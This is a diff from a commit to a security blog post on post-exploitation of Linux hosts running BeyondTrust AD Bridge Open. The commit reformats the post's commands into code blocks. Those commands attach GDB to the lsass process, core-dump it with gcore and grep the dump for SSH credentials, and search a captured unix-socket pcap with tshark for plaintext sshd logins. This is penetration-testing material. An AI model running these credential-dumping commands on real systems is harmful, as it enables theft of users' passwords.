

Before and after one commit to ricardojba/ricardojba.github.io, a Jekyll site: the page built from _posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation.md, in a window 1280 px wide and 900 px high, scrolled down 3731 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add BeyondTrust AD Bridge Open Post Exploitation

````diff
--- a/_posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation.md
+++ b/_posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation.md
@@ -86,14 +86,20 @@ In order to get some plain text credentials the LSASS process can be targeted Mi
 SSH is integrated with Active Directory using AD Bridge Open, so I can dump the process memory, run strings and grep for SSH authentications or passwords.
 
 
-GDB can be attached using one of the AD Bridge Open binaries `/opt/pbis/bin/lwsm gdb lsass`
+GDB can be attached using one of the AD Bridge Open binaries:
+```bash
+/opt/pbis/bin/lwsm gdb lsass
+```
 
 <p align="center">
   <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-5.png">
 </p>
 
 
-Or I can just run ``gcore `ps aux | grep '[l]sass' | awk '{print $2}'` && strings core.* | grep -C 8 -Hnia --color=auto "ssh"``
+Or I can just run:
+```bash
+gcore `ps aux | grep '[l]sass' | awk '{print $2}'` && strings core.* | grep -C 8 -Hnia --color=auto "ssh"
+```
 
 <p align="center">
   <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-6.png">
@@ -130,7 +136,9 @@ chmod 755 unixsock-sniff.sh
 
 If the Linux box is very often accessed by users or there is some automated scanning software that performs authenticated scans against the box (eg: Nessus), I should get the SSH logins and capture the plain text credentials.
 
-`tshark -x -r /tmp/unix_socket_dump.pcap | grep -C 8 sshd`
+```bash
+tshark -x -r /tmp/unix_socket_dump.pcap | grep -C 8 sshd
+```
 
 
 Pretty sure that there's a lot that I didn't covered or missed, but this will help get us started in a pentest or red team of \*nix hosts with BeyondTrust AD Bridge Open installed.
````
